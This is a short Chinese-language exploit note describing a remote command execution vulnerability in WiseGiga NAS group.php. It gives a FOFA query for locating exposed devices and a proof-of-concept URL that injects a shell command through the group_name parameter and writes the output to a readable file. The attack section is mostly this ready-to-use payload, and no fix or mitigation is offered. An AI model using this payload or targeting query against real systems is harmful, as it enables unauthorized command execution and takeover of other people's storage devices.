



# WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

```
WiseGiga NAS
```

## FOFA

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面



验证POC

```
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```



```
/admin/1.txt
```

